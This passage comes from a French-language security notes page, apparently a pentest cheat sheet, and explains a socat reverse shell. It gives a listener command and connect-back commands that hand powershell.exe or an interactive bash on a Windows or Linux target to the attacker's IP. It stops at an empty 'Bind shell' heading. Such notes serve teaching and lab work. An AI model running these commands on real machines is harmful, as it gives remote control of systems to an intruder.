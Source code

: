 
## __Reverse shell__

Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener

Sur notre machine il faut effectuer la commande :

```shell
user@ip:~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection

Sur la machine cible, on va effectuer la commande :

1) Sur une machine **windows**

```shell
PS C:\Users\user> socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

2) Sur une machine **linux**

```shell
user@raspberrypi: ~$ socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


## __Bind shell__

